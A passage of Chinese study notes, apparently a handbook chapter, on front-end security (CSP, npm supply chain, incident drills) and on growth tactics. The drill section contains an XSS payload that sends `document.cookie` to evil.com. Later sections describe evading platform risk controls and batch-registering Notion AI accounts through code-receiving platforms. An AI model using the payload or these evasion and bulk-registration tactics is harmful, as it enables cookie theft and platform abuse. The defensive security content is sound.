1.  **旧版浏览器降级**：不支持 `strict-dynamic`/`nonce` 时，需回退兼容方案（哈希值 `sha256-...`）。
2.  **第三方脚本接入**：统计、广告、聊天插件需显式加入白名单或托管到自域名代理，否则会被拦截导致业务功能失效。
3.  **CSP 盲区**：CSP **无法防御**存储型 XSS 导致的 HTML 结构破坏（如注入 `<a href="phishing.com">登录</a>` 钓鱼链接），需配合输出编码。

### 方法演进图



> **方法演进图说明**：CSP 从静态域名白名单（维护成本高、无法解决内联脚本），演进到 `nonce`/`hash` 支持内联脚本授权，再到 `'strict-dynamic'` 解决现代前端动态加载、模块联邦场景下的信任链传递问题。配合 `Report-Only` 灰度发布机制，将 CSP 从“上线即事故”的高风险配置转变为可观测、可迭代的工程化安全控件。

---

## 42.6 供应链安全 —— 守住 `node_modules` 这扇“后门”

### 为什么需要这个概念？

现代前端项目依赖树极深（百万级包），单个恶意/被植入后门的依赖（如 `event-stream`、`ua-parser-js`、`colors` 事件）可感染所有下游应用。攻击向量：依赖劫持、维护者账号被盗发布恶意版本、合法包被注入恶意代码（安装脚本 `postinstall` 执行）、原型链污染。

### 核心定义

**软件供应链安全**：保障从源码编写、依赖获取、构建打包、部署运行全链路的完整性与可信性。

**SBOM (Software Bill of Materials, 软件物料清单)**：记录项目所有直接/间接依赖的名称、版本、许可证、哈希值、来源，格式如 CycloneDX、SPDX。

> **原文摘录**  
> > "接入 `npm audit`/`pnpm audit`/`Snyk`/`Socket` CI 检查、`package-lock.json` 版本锁定、生成 CycloneDX SBOM 合规交付。"  
> > —— 《20230418_042.md》

### 关键性质：四层防御体系

| 防御层 | 工具/手段 | 核心作用 | CI/CD 集成点 |
| :--- | :--- | :--- | :--- |
| **1. 已知漏洞审计** | `npm audit` / `pnpm audit` / `yarn audit` | 基于 CVE/GHSA 扫描已知漏洞 | `pnpm audit --prod --audit-level=high` 失败阻断合并 |
| **2. 版本锁定与完整性** | `package-lock.json` / `pnpm-lock.yaml` | 锁定精确版本与完整性哈希，防“同版本不同代码” | 必须提交 Git，CI 校验 `npm ci` / `pnpm install --frozen-lockfile` |
| **3. 恶意行为静态分析** | `Socket` / `Snyk` / `OSSF Scorecard` | 分析包行为：网络请求、文件读写、Shell 执行、混淆代码，**安装前拦截** | GitHub App 自动扫描 PR 依赖变更风险，阻断恶意包合入 |
| **4. 物料清单生成** | `@cyclonedx/bom` / `syft` | 生成 CycloneDX/SPDX 格式 SBOM，供漏洞溯源、合规交付 | 构建期生成 `bom.xml` 上传为 Artifact |

**npm audit 与 Socket 检测能力的本质区别是什么？**
- `npm audit` 是**基于签名的被动防御**：它仅对比依赖版本与已公开的 CVE/GHSA 漏洞数据库。对于**零日供应链攻击**（恶意维护者刚发布带后门的版本、Typosquatting 新包、依赖被注入混淆恶意代码但未披露 CVE），`npm audit` **完全无感知**，因为数据库中尚无记录。
- `Socket`/`Snyk` 行为审计是**基于行为的主动防御**：它们在安装前静态分析包的源码/字节码，检测 `postinstall` 等生命周期钩子中是否包含**可疑行为模式**（执行 Shell 命令、发起网络请求、读取环境变量/敏感文件、代码高度混淆、原型链污染赋值）。**不依赖漏洞数据库，在恶意包发布的第一时间即可拦截**。

### 典型例子

- **event-stream 事件**：`event-stream@3.3.6` 依赖 `flatmap-stream` 被植入窃取比特币钱包代码，影响数百万下载。
- **CI 配置示例**：
  ```yaml
  # .github/workflows/supply-chain.yml
  - name: Audit Production Deps
    run: pnpm audit --prod --audit-level=high
  - name: Socket Scan
    uses: SocketDev/scan-github-action@v1
  - name: Generate SBOM
    run: npx @cyclonedx/bom . -o bom.xml --format cyclonedxXml
  ```
- **生成 SBOM 命令**：`npx @cyclonedx/bom . -o bom.xml --format cyclonedxXml`

> **公式块后解释**  
> SBOM 生成命令解析：`@cyclonedx/bom` 是官方 CycloneDX 工具。`.` 表示扫描当前项目（含 `node_modules` 依赖树），`-o bom.xml` 指定输出文件，`--format cyclonedxXml` 指定输出标准 XML 格式。生成的 `bom.xml` 包含每个组件的 `name`、`version`、`hashes (SHA-256)`、`licenses`、`purl (Package URL)`、`externalReferences` 等字段，可直接导入依赖追踪平台（如 Dependency-Track）进行漏洞关联分析与合规审查。

### 边界条件

1.  **`npm audit` 盲区**：仅覆盖已披露 CVE，**无法发现**零日供应链攻击（恶意代码刚发布未被收录），需配合行为审计工具。
2.  **Monorepo 统一审计**：单体仓库/Monorepo 需在根 workspace 统一审计，避免子包漏网。
3.  **私有 Registry 加固**：需开启 2FA、发布签名验证（`npm attest`）、访问权限最小化。

### 方法演进图



> **方法演进图说明**：供应链安全从“靠人工信任”演进到“Lockfile 确定性构建”，再到“已知漏洞数据库扫描”，进而到“行为静态分析拦截零日恶意包”，最终形成“SBOM 全链路溯源 + 签名验证构建完整性”的闭环体系。每一层解决上一层无法覆盖的盲区：Lockfile 解决确定性，audit 解决已知 CVE，行为分析解决零日/未披露恶意代码，SBOM 解决合规与事后溯源。

---

## 42.7 前端安全基线与应急 SOP —— 从“造车”到“验车”再到“救车”

### 为什么需要这个概念？

安全非一次性配置，而是持续工程过程：新业务上线、依赖升级、框架迁移、浏览器特性变更均可能引入新风险。缺乏标准化清单导致“靠经验、靠运气”，缺乏应急预案导致“出事乱跑、损失扩大”。

### 核心定义

- **安全基线**：前端项目必须满足的最低安全配置清单（CSP、HTTPS、HSTS、COOP/COEP、SameSite、XSS 防御、依赖审计等）。
- **SDL (Security Development Lifecycle)**：将安全左移至需求分析、设计评审、编码规范、测试验收、发布上线、运维响应全生命周期。
- **应急响应 SOP**：分级定义（P0 立即停服修复、P1 24h 修复、P2 迭代修复）、溯源取证流程、回滚/热修复机制、事后复盘输出 RCA。

> **原文摘录**  
> > "产出《前端安全开发规范》《安全编码 Checklist》《漏洞分级与响应流程》，接入 SDL 安全开发生命周期。"  
> > —— 《20230418_042.md》

### 关键性质：三大清单与自动化门禁

**1. 接入清单（项目初始化/新业务接入时）**
- 依赖审计通过（无高危漏洞）
- CSP 部署 Report-Only 模式
- HTTPS 强制 + HSTS 预加载
- 敏感接口（转账、改密）强制 CSRF Token
- Cookie 必须 `Secure; HttpOnly; SameSite=Lax`

**2. 编码清单（代码审查/开发规范）**
- 禁止 `innerHTML` / `v-html` / `dangerouslySetInnerHTML` 直用用户输入
- URL 参数拼接必须 `encodeURIComponent`
- CSP nonce 注入入口脚本
- 富文本必须 `DOMPurify.sanitize`
- 敏感操作二次确认（弹窗/短信/支付密码）

**3. 发布清单（构建/部署前）**
- Source Map 上报错误平台（不暴露公网）
- 安全扫描通过（SAST/DAST/依赖审计）
- 变更日志包含安全相关变更说明
- CD 阻断未签名构建产物

**自动化门禁流水线**：


> **公式块后解释**  
> 自动化门禁流水线解析：
> 1. **Husky Pre-commit**：本地提交前拦截 `console.log`、硬编码密钥、`innerHTML` 直用等低级错误，零成本左移。
> 2. **CI 阶段串行校验**：`pnpm audit`（已知漏洞） -> `Socket Scan`（零日恶意行为） -> CSP 违规扫描/测试覆盖率。任一失败即阻断合并，**强制开发者在本地修复后再推送**。
> 3. **CD 阶段供应链完整性**：构建产物签名（如 `cosign` 签名镜像/制品）、SBOM 生成上传，**无签名/无 SBOM 即不得发布**，防止构建环境被污染或制品被篡改。

**监控告警体系**：
- 前端错误监控捕获 CSP 违规报告 -> 告警钉钉/飞书/PagerDuty
- JS 报错异常激增（如 5 分钟 > 100 次） -> 告警
- 关键埋点异常（登录/支付成功率骤降） -> 告警

### 典型例子：应急演练流程

**场景**：模拟 XSS 注入触发 CSP 上报

1.  **模拟攻击构造**：在测试环境提交含 `<script>fetch('https://evil.com/steal?c='+document.cookie)</script>` 的评论。
2.  **监控告警触发**：5 分钟内 CSP 违规上报 > 10 次（来自 `script-src` 拦截）。
3.  **现网定位**：通过上报的 `blocked-uri`、`script-sample`、`document-uri` 定位注入页面与参数。
4.  **热修复决策矩阵**：

| 方案 | 优点 | 缺点 | 适用场景 | 决策权重 |
| :--- | :--- | :--- | :--- | :--- |
| **收紧 CSP 规则** | 秒级生效，无需发版 | 可能误伤合法内联脚本 | 已知攻击向量明确，且 CSP 处于 Report-Only 可快速验证新规则 | ★★★★☆ |
| **前端代码回滚** | 根治代码缺陷 | 需走构建发版流程 (5-30min) | 存在明确代码缺陷（如缺失编码），且有可用回滚版本 | ★★★★★ |
| **WAF 拦截** | 网络层拦截，不改业务代码 | 规则维护成本高，易绕过 | 0day 紧急防护，代码修复需时间 | ★★★☆☆ |

> **公式块后解释**  
> 热修复决策矩阵推导逻辑：
> - **首选代码回滚**（权重最高）：治本，彻底修复注入点，符合 SDL “修复代码缺陷”原则。前提是存在可用版本且发版流程可控（<30min）。
> - **次选收紧 CSP**（权重次之）：治标，利用 CSP 运行时拦截能力秒级止血。适用于攻击向量明确（如均为 `script-src` 违规）、且当前 CSP 处于 Report-Only 可无风险验证新规则的场景。
> - **兜底 WAF**（权重最低）：不改代码、不改 CSP，网络层正则拦截攻击特征。仅作 0day 紧急缓解，因正则极易绕过（编码、混淆），不可作为长期方案。

5.  **事后 RCA 模版关键字段**：
    - 事故等级 / 影响范围 / 根因分类（代码缺陷/配置错误/依赖漏洞）
    - 时间线：发现 -> 定位 -> 止血 -> 恢复
    - 改进措施：代码修复 / 规范更新 / 测试用例补充 / 门禁收紧
    - 验收标准：回归测试通过 / 红队复测无复现

### 边界条件

1.  基线需随技术栈演进（如引入 Trusted Types、COOP/COEP 隔离策略），每季度评审更新。
2.  业务紧急上线不可绕过安全门禁，必须走“风险确认单”流程：安全评估 + 补偿措施 + 限时整改承诺。
3.  供应商/外包代码纳入同等安全审计标准，合同约定安全责任。

### 方法演进图



> **方法演进图说明**：安全治理从“出事再修”演进为“清单标准化”，再到“流水线门禁前置拦截”，进而到“运行时可观测与实时报警”，最终建立“分级响应 + 事后复盘反哺规范”的 SDL 闭环。每一步都将安全发现时间左移、修复成本降低、组织能力沉淀。

---

## 42.8 RPA 自动化工程化 —— 从“软件的软件”到“超自动化”

### 为什么需要这个概念？

企业大量存在“高频、重复、有界、无 API”的手工操作场景（如微信红包采集、电商数据抓取、表单录入），传统代码开发成本高、周期长、维护难。RPA 通过“可视化编程/低代码”极大降低自动化门槛，使非技术人员也能将业务逻辑转化为可运行流程，实现“人人可自动化”。

### 核心定义

**RPA (Robotic Process Automation)**：‘软件的软件’，核心功能是模仿人类在计算机上执行操作（鼠标、键盘、指令），结合 AI 识别技术（OCR、图像识别、NLP），实现对第三方软件/APP 的非侵入式自动化控制。

> **原文摘录**  
> > "在‘生财有术’2023年全国见面会微信群中，自动化爬取 7 天内 9000+ 份微信红包数据的全过程。"  
> > —— 《20230418_106.md》

**关键技术对照**：

| 技术路线 | 原理 | 优势 | 劣势 | 适用场景 |
| :--- | :--- | :--- | :--- | :--- |
| **元素识别** | 基于应用层级结构定位控件 | 抗干扰性强，可解决异形控件、界面缩放移动 | 需应用支持无障碍/自动化接口 | 优先选择，如微信 PC 端、浏览器、Windows 应用 |
| **图像识别** | 基于屏幕像素匹配模板图片 | 通用性强，不依赖应用内部结构 | 易受分辨率、主题、遮挡影响；维护成本高 | 兜底方案，如游戏、远程桌面、无元素树应用 |

**非侵入式数据采集**：针对无法复制、无开放 API 的场景（如微信红包详情页），利用 RPA 的 OCR/元素文本提取能力，直接读取屏幕渲染文本。

### 关键性质：五步开发标准法

**标准化流程（必须严守顺序）**：
1.  **手动操作（含异常场景枚举）**：亲自完整跑通 3-5 遍业务流程，记录每一步点击、输入、等待、判断，**重点枚举异常分支**（网络慢、弹窗干扰、数据为空、元素找不到）。
2.  **步骤梳理（流程图）**：绘制标准化流程图，包含**顺序结构**、**循环结构**（翻页、遍历列表）、**分支结构**（异常处理、条件跳转）。
3.  **模块开发（关键步骤优先，可视化拖拽）**：按“登录 -> 进入列表 -> 循环采集详情 -> 翻页 -> 存储”顺序开发，先跑通主流程，再填充异常分支。
4.  **运行测试（边写边测）**：单步调试 -> 单模块跑通 -> 全流程小数据跑通 -> 全量数据压测。
5.  **修复 BUG（异常捕获与容错）**：将重复执行步骤包裹在 Try 块中，遇到未预判干扰时跳转至预设恢复逻辑（如“强制返回首页 -> 重新进入列表 -> 继续循环”），保障长时任务无人值守运行。

### 典型例子：微信红包 9000+ 条自动化采集实战

**关键难点与解决方案**：

| 难点 | 现象 | 解决方案 (工程化模式) |
| :--- | :--- | :--- |
| **异形红包识别** | 部分红包颜色/形状异于普通红包，元素属性不同 | **元素识别兜底**：通过父容器特征定位列表项，而非依赖红包本身颜色/形状属性 |
| **红包封面图遮挡** | 红包详情页有封面图覆盖内容，需滑动收起 | **滑动参数化校准法**：实测建立“滑动区域选择(元素/坐标) + 滑动时长”经验参数表，不同机型/分辨率配置不同参数 |
| **干扰元素/过期红包** | 列表中夹杂系统消息、已过期红包 | **识别后强制返回群聊**：采集前校验关键字段（发送者/金额/时间）是否存在，缺失则 `back()` 跳过 |
| **去重存储** | 翻页重复读取同一条红包 | **字典去重**：以 “发送者ID+金额+时间戳” 组合为 Key 存入字典，天然去重 |
| **结束标志判定** | 滑动至列表底部无新数据 | **末尾标志终止判定法**：连续两次采集最后一条记录的 Key 相同，判定到达底部，终止循环 |
| **未知异常容错** | 网络抖动、微信版本更新导致元素失效 | **Try-Catch 捕获 + 恢复流程**：Try 块包裹采集循环，Catch 中执行“重启微信 -> 重新登录 -> 定位群聊 -> 继续” |

> **公式块后解释**  
> **字典去重键值设计推导**：
> 红包数据的唯一性由业务属性决定。实测发现：同一红包在列表中因翻页重复出现时，**发送者 ID、金额、发送时间戳**三字段组合全局唯一。因此设计 Key = `sender_id + '_' + amount + '_' + timestamp`。字典插入时若 Key 已存在则覆盖/忽略，实现 O(1) 去重。此设计**不依赖数据库唯一索引**，在 RPA 本地内存中即可完成，极大简化存储逻辑。
>
> **末尾标志终止判定法推导**：
> 微信群聊列表无“总页数”API，且滑动加载为无限列表。观察发现：当滑动至底部时，最后一条可见红包记录**连续多次保持不变**。因此设定终止条件：`last_key == prev_last_key` 连续 2 次即判定到达底部。该算法**无需预知数据总量、无需元素检测“到底部”标志**，仅依赖数据层面的幂等性，极其鲁棒。
>
> **滑动参数化校准表设计**：
> | 操作场景 | 滑动区域选择方式 | 滑动起点/终点 | 滑动时长(ms) | 校准方法 |
> | :--- | :--- | :--- | :--- | :--- |
> | 群聊列表翻页 | 元素识别：红包列表容器 | 容器底部 -> 容器顶部 | 800-1200 | 实测 10 次取中位数，不同机型建表 |
> | 红包详情页收起封面 | 坐标识别：屏幕中心区域 | (50%, 70%) -> (50%, 30%) | 300-500 | 实测 5 次取中位数，避开边缘干扰 |

**数据分析建模**：导出 Excel -> 透视表构建“发红包维度”（谁发最多/最大/总额）与“抢红包维度”（谁手气最好/抢得最多/总额）多维分析。

### 边界条件

1.  **RPA 非万能**：不适合高并发、强实时、需深度业务逻辑判断的场景；需警惕目标应用版本更新导致元素选择器失效的维护成本。
2.  **合规红线**：仅自动化自有/授权系统操作，严禁用于爬虫窃取、账号暴力破解等灰黑产场景。
3.  **技术变现闭环原则**：场景应景 + 能力结合 + 稀缺性，产出“数据资产+自动化工具+复盘文档”三位一体交付物。

### 方法演进图



> **方法演进图说明**：自动化从“完全人工”演进到“录制回放脚本”，再到“可视化流程编排”，进而沉淀为“五步标准化开发法 + 异常处理模式库”，最终结合 AI（OCR/NLP/决策）实现“超自动化”。核心突破在于**将不可控的异常场景显式建模为流程分支**，并通过 Try-Catch 机制保障长任务鲁棒性。

---

## 42.9 引流行为设计 —— 福格行为模型的工程化落地

### 为什么需要这个概念？

传统引流依赖“技巧/话术/工具”碎片化拼凑，平台规则一变即失效；缺乏底层逻辑框架指导方法层迭代。福格行为模型（B=MAP）揭示行为发生的三要素：动机、能力、提示；将引流拆解为“强化动机-降低难度-触发提示”三大核心模块，构建平台无关的通用方法论。

### 核心定义

**引流行为公式**：用户私信行为 = 私信动力 × 私信能力 × 私信提示

> **原文摘录**  
> > "用户私信行为=私信动力 * 私信能力 * 私信提示"  
> > —— 《Efm3dQsmpoUyHxxDPaAcoqXvnVe.md》
>
> > "掌握这个逻辑，不管平台怎么变化，只要在具体方法上，不要触及平台红线，引流都没什么问题"  
> > —— 《Efm3dQsmpoUyHxxDPaAcoqXvnVe.md》

| 要素 | 定义 | 核心手段 |
| :--- | :--- | :--- |
| **私信动力** | 用户产生“想与作者建立联系”意愿的心理驱动力 | 选题内容精准度、痛点刺激、收益展示 |
| **私信能力** | 用户完成私信/联系操作的难易度 | SOP 教程（手写纸条/流程图）规避平台检测、降低认知与操作门槛 |
| **私信提示** | 在多触点植入引导线索，触发用户即时行动 | 图片植入、评论区置顶、私信主动、群聊公告 |

**引流型选题标准**：区分“爆款选题”（追求泛流量/点赞）与“引流选题”（吸引想买产品/服务的精准人群），强调**精准流量优于泛流量**。

**合规引流 SOP**：通过手写纸条、流程图、关键词搜索指引等非链接形式，在平台风控规则内实现私域联系方式的隐性传递。

### 关键性质：标准化执行体系

**1. 引流型选题三维筛选法**：
- 用户想要的（产品匹配度）：内容直接关联产品/服务。
- 用户有需求的（需求精准度）：用户正在主动寻找解决方案。
- 戳用户痛点（潜在需求唤醒）：用户虽未显性搜索，但深受其苦。

**2. 三类爆款封面制作法**：
- **对比型**：前后反差（瘦身前后、收入前后、皮肤前后）。
- **纯文字型**：关键词/噱头直接上（“月入 3 万副业”、“避坑指南”）。
- **大合集型**：全景式价值展示（“100 个 AI 工具合集”、“完整 SOP 大全”）。

**3. 内容图隐性植入四法**（自然传递“有产品、可获取、有价值、可信赖”）：
- 打印资料实物（实体感增强信任）。
- 不完整资料预告（“核心在评论区/私信”制造悬念）。
- 收益截图（结果导向）。
- 交付/反馈截图（社会认同）。

**4. 双模态私信 SOP 制作法**（必须包含五要素：去哪找、搜什么词、如何识别、有何价值、联系方式）：
- **手写纸条**：低重复率、强伪装性、随时拍新图，规避“群发判定”。
- **流程图**：高清晰度、强逻辑、适合复杂路径引导。

**5. 全链路提示触达体系**：覆盖图片内容植入、评论区置顶/小号带节奏、私信主动引导、群聊公告/小助理运营四大触点。

### 典型例子

- **单人矩阵运营**：10 个账号，月广告收入 1万+，单日单号稳定引流 100+ 精准用户，验证方法论可复制、可规模化。
- **痛点选题引流效率实测**：围绕“宝妈副业”痛点的百赞笔记，引流效果优于发布育儿/宠物泛知识的万赞笔记。
- **手写 SOP 规避风控实测**：“能更好避开平台检测”，且“随时拍新图，图片重复率低，判定群发概率低”。

> **公式块后解释**  
> **精准流量优于泛流量的数学逻辑**：
> 设泛流量笔记曝光 10 万，点赞 1 万，但目标用户占比 0.1%，引流 10 人；精准流量笔记曝光 1 万，点赞 100，目标用户占比 10%，引流 100 人。**转化率差异源于“选题与产品的匹配度”**。福格模型中，若内容与产品无关，用户“动机”极低（M≈0），则 B=MAP ≈ 0，无论能力多强、提示多密都无法引流。因此**选题是动机的上游决定因素**，必须精准锚定目标用户痛点。
>
> **手写纸条 SOP 规避风控的本质优势**：
> 平台风控模型对“图片中包含二维码/微信号/链接特征”的检测召回率极高（>99%）。手写纸条将“联系方式”这一**敏感数据特征**转化为“搜索关键词/操作路径”这一**普通文本/行为特征**。平台对“用户分享搜索教程”的容忍度远高于“留联系方式”。同时，手写内容每次拍摄像素不同（重复率极低），规避了“图片指纹去重 -> 判定群发 -> 限流/封号”的风控链路。

### 边界条件

1.  方法会根据平台更新而变化，但逻辑不变；核心竞争力在于“动机-能力-提示”框架的内化与快速迁移能力。
2.  群聊运营需注意：打开率低，建议每进 10 人编辑群公告、用小助理号高频发送资料/收益图/SOP。
3.  合规性即生存性：所有动作必须在平台风控红线内，违规即账号死亡。

### 方法演进图



> **方法演进图说明**：引流技术从“硬广留联”（极易封号）演进到“关键词搜索”（规避关键词拦截），再引入福格行为模型将引流拆解为动机/能力/提示三大工程模块，进而标准化为“选题筛选、封面制作、隐性植入、双模态 SOP、全链路触达”五大标准动作，最终通过矩阵化实现规模化。核心跃迁在于**从“技巧堆砌”转向“底层逻辑建模 + 标准化执行体系”**。

---

## 42.10 热点驱动变现 —— 极速响应与替代品锚定的商业闭环

### 为什么需要这个概念？

突发热点（如封号、政策变动、平台故障）会引发大规模用户焦虑与刚性需求，形成供需严重不平衡的短暂红利窗口。普通从业者往往“看热点当新闻”，缺乏“痛点转化+极速交付+技术杠杆”的商业敏感度与执行体系，错失变现良机。

### 核心定义

> **原文摘录**  
> > "从人群痛点足够疼到产品交付方案足够好，我们认为是可以跑通闭环的...6小时快速从零到上线卖出，快速拿到正反馈的感觉还是挺好的。"  
> > —— 《KJ0CdYG18oMFStxpa17cxS0wnyt.md》

| 概念 | 定义 |
| :--- | :--- |
| **热点红利窗口期** | 突发事件引发大众焦虑与需求爆发，供需严重不平衡，先行者能以极低成本获取高转化流量的短暂时间窗口（小时级至天级） |
| **替代性产品锚定** | 利用热点暴露的主流产品痛点（封号、需翻墙、贵），将自有或可整合的替代产品作为“完美替代品”推介 |
| **交付即服务** | 将原本需要用户自行注册、配置、学习的工具使用门槛，通过技术手段转化为“开箱即用”的账号交付服务 |
| **锚定定价与优惠券心锚** | 设定高虚拟原价配合大额优惠券形成实付价格，利用锚定效应提升性价比感知 |
| **分销裂变飞轮** | 设置高额分销佣金（扣除手续费后实时结算），结合“短结算周期”、“虚拟产品无退款”规则，快速激励种子用户转化为推销员 |

### 关键性质：极速执行标准动作

**1. 热点痛点三步拆解法**：
从三个维度系统性拆解用户痛点：
- 访问门槛（如：科学上网难）
- 资产安全（如：封号风险）
- 经济成本（如：价格敏感）

**2. 👸号爆款标题双 A/B 测试法**：
针对用户最核心痛点制备两个高点击率候选标题，通过团队讨论快速决策。
- 案例：ChatGPT 封号热点 -> 候选 A「不翻墙用 GPT-4」vs 候选 B「不封号的 GPT 替代品」-> 团队 5 分钟决策选 A。

**3. Notion AI 账号自动化批量注册与开通技术方案**：
Python 脚本 + 邮箱接码平台 API，实现邮箱生成 -> 验证码接收 -> 账号注册 -> 会员开通 -> 凭证入库全流程自动化。

**4. 极速课程产品化包装 SOP（6 小时上架）**：
利用现有课程资产快速剥离重组 -> 创客贴模板出海报 -> 小鹅通搭建交付页 -> 优惠券设价 -> 分销后台配置。

### 典型例子：极客增长团队 ChatGPT 封号热点变现实录

- **触发事件**：ChatGPT 大规模封号。
- **痛点映射**：用户痛点“需翻墙、怕封号、贵” -> 替代方案 Notion AI “无需翻墙、不封号、低成本年费会员”。
- **执行耗时**：6 小时完成产品上架（课程剥离、海报、交付页、分销配置）。
- **结果**：客单 399 元，总变现 1.35 万，转化率 1.9%。
- **验证公式**：极速响应 × 现成方案 × 技术杠杆 = 正反馈闭环。

> **公式块后解释**  
> **极速变现公式推导与边界假设**：
> `变现结果 = 流量获取效率 × 转化率 × 客单价 × 复购/裂变系数`
> - **极速响应**保证在红利窗口期（小时级）内捕获**流量获取效率最高点**（竞品未入场、用户焦虑峰值）。
> - **现成方案**（课程库存/工具资源）保证**交付即服务**零冷启动，**转化率**由“痛点-方案”契合度决定（实测 1.9% 远超常规 0.1%）。
> - **技术杠杆**（自动化注册/交付脚本）将边际成本压近零，支撑**客单价**与**裂变系数**的高杠杆放大（40% 佣金+自动分销）。
> - **边界假设**：① 热点需为“系统性故障/政策突变”引发的**大规模刚需**，而非娱乐八卦；② 替代品必须具备**真·替代性**（核心功能覆盖、体验无显著下降）；③ 团队需具备**现成资产库**与**自动化交付能力**，否则 6 小时内无法闭环。

### 边界条件

1.  **窗口期极短**：无“现成交付方案”（课程/工具库存）和“技术杠杆”（自动化脚本）的团队无法跑通闭环。
2.  **替代品真实性**：必须具备“真·替代性”：功能覆盖核心痛点、体验无显著下降、合规风险可控，否则将引发信任危机。
3.  **分销风控**：虚拟产品分销需警惕微信风控：大量分销易触发风控，需设置“分销金额实时价格 40%”、“三天可提现”、“虚拟类不退款”规则平衡放大与安全。
4.  **粗糙执行下的高转化率**：反而验证了需求真实性与模型鲁棒性（错别字、海报粗糙、交付半自动化仍达 1.9% 转化率）。

### 方法演进图



> **方法演进图说明**：热点变现从“事后蹭流量写软文”演进为“热点卖现成课”，再到“系统性痛点拆解 + 替代品非对称锚定”，进而引入“自动化交付脚本 + 极速产品化 SOP”实现 6 小时上架，最终接入“高佣金分销裂变”放大收益。核心跃迁在于**将“运气好”转化为“可复制的标准化打法”**。

---

## 42.11 矩阵思维与复制能力 —— 从单体盈利到规模化跃迁

### 为什么需要这个概念？

多数创业者陷入“单体深耕”误区：拼命优化单一项目/账号，却忽略“可复制性”才是规模化的核心杠杆。亦仁指出：赚 30 万的项目与赚 300 万的项目本质同构，区别仅在于后者通过矩阵化复制了前者的盈利单元。

### 核心定义

> **原文摘录**  
> > "你开一个视频号赚1万块，一百个视频号就是100万块。那些人就应该都是你的分身，是你的矩阵，那这就是一个300万的项目了。"  
> > —— 《AiCrd19EAoPvvPx0HSJczxk3nfC.md》

| 概念 | 定义 |
| :--- | :--- |
| **矩阵思维** | 不满足于单点突破，而是通过标准化流程将单一盈利模型（分身）进行规模化复制与并行运营，实现收益指数级跃升 |
| **复制能力** | 操盘者将已验证的单体盈利模型（SOP、流程、团队管理）进行低成本、高成功率的横向扩张与规模化部署的核心能力 |
| **单体与规模同构性** | 核心洞见——赚 30 万的项目与赚 300 万的项目在本质上是同一个项目，区别仅在于后者通过矩阵化复制了前者的盈利单元 |

### 关键性质：价值评估重构与收益放大

**1. 项目价值评估重构定理**：
评判项目大小不应看单体收益绝对值，而应看**‘可复制性’与‘门槛’的乘积**：
- **低门槛 + 高复制性 = 隐性大项目**（如宝妈月入几千的小项目，标准化易、边际成本低，百号矩阵即百万项目）。
- **高门槛 + 低复制性 = 天花板低的小项目**（如高客单价咨询，强依赖专家个人 IP，难复制）。

**为什么看“可复制性 × 门槛”而非单体收益？**
设单体月收益为 `R`，复制分身数为 `N`，单分身复制成本为 `C`，成功率为 `p`。总收益 `Total = R × N × p - C × N`。
- 若 `R` 很大（高客单价咨询），但 `p` 极低（依赖专家个人能力，难标准化）、`C` 极高（需招募同级专家），则 `N` 无法放大，`Total` 受限于创始人精力上限。
- 若 `R` 较小（宝妈副业月入 3000），但 `p≈1`（SOP 标准化极易）、`C≈0`（边际成本近零、可外包/兼职），则 `N` 可扩展至百/千级，**Total = 3000 × 500 = 150 万/月，远超单体高客单项目**。
- **结论**：项目价值上限由 `R × (p/C)` 决定，**可复制性(p)与低门槛(低C)是规模化的核心杠杆**，单体收益 `R` 仅是基数。

**2. 矩阵收益放大公理**：
> 总收益 = 单体收益 × 成功复制的分身数量（N）
前提：复制成本边际递减且成功率可控。

**公理成立的前提条件推导**：
1. **单体模型已跑通闭环**：获客-转化-交付-复购全链路打通，有标准化 SOP。
2. **边际复制成本递减**：第 N+1 个分身的启动成本 ≤ 第 N 个（沉淀了选品库、素材库、话术库、自动化工具、培训体系）。
3. **成功率可控**：通过“分身准入审核 + 质量巡检 SOP + 中台赋能”将单分身成功率稳定在阈值以上（如 >60%）。
4. **去个人 IP 化**：产品/交付不强依赖创始人个人品牌，合伙人/员工可无心理负担推广。

**若前提不满足，公理失效**：
- 无 SOP -> 成功率 `p` 极低 -> `N` 放大放大的是失败。
- 强依赖个人 IP -> 无法去 IP 化 -> 合伙人推广阻力大、交付质量不可控 -> `p` 下降。
- 合规风控未标准化 -> 规模化放大违规概率 -> 整体账号被封 -> `Total` 归零。

**3. 去个人 IP 化社群产品设计**：
刻意剥离社群产品对创始人个人 IP 的强依赖，使产品可标准化、可复制、便于合伙人推广。

**4. 合伙人机制反割韭菜设计原则**：
- 合伙人分佣必须绑定“实操项目赚钱”而非“单纯拉人头”。
- 设置 GMV 门槛、二级分佣、渠道管道收益。

### 典型例子

- **视频号矩阵**：单号月入 1 万，复制 100 号即达月入 100 万规模，验证矩阵思维在内容变现赛道的可行性。
- **宝妈低门槛项目**：月入几千但“门槛不高、标准化易、边际成本低”，是构建百万级矩阵项目的优质标的，而非被多数人误判的“小钱/不值得做”。
- **普通人创业可复制性定理**：普通人（有全职工作、无网创经验）通过“抄袭-模仿-创造”路径，构建标准化 SOP 体系，可在 2 个月内从 0 到 1 打造盈利付费社群，且该体系可在 4 天内教会零基础小白跑通闭环。

### 边界条件

1.  **复制前提**：单体模型必须已跑通完整商业闭环（获客-转化-交付-复购），且具备标准化 SOP 与可外包/可并行的执行结构。
2.  **组织韧性源于“去超级个体化”设计**：将核心能力沉淀为运营模式、产品组合、标准化流程等结构性资产，使单点人员流动对业务影响降至最低（<25%）。
3.  **合规与品控**：规模化放大不可以牺牲合规率与交付质量为代价，需建立“分身准入审核”与“质量巡检 SOP”。

### 方法演进图



> **方法演进图说明**：商业规模化从“超级个体单打独斗”演进为“SOP 标准化沉淀”，再到“去 IP 化产品设计”降低复制门槛，进而建立“分身体系”实现并行复制，最终形成“组织韧性 + 结构性资产”护城河。核心跃迁在于**将“个人能力”显式转化为“可复制的组织资产”**。

---

## 42.12 设计中的取舍

### 为什么不直接用输入过滤/黑名单防御 XSS，而坚持输出编码？

输入过滤面临“语境丢失”问题：数据输入时不知道未来会在哪个上下文渲染（HTML/JS/URL/CSS），导致要么过滤不足（漏过攻击），要么过度过滤（破坏合法数据，如用户名含 `<` `>`）。输出编码在渲染时刻明确知道上下文，可精准转义。**这是“晚绑定”优于“早绑定”的经典工程权衡。**

### SameSite=Lax 已成默认，为什么还要维护 CSRF Token 体系？

1.  **覆盖边界场景**：Lax 不防御顶级导航 GET 请求、站内 XSS 发起的请求、子域共享 Cookie 场景。
2.  **兼容旧环境**：部分企业内网仍运行旧版浏览器/WebView。
3.  **纵深防御原则**：单一防线必失效，Token 是成本极低、覆盖面最广的兜底。
**Trade-off**：Token 方案增加后端状态管理复杂度（需存储/校验），但安全收益远大于成本。

### CSP 为何不推荐 `'unsafe-inline'` 而坚持 nonce + strict-dynamic？

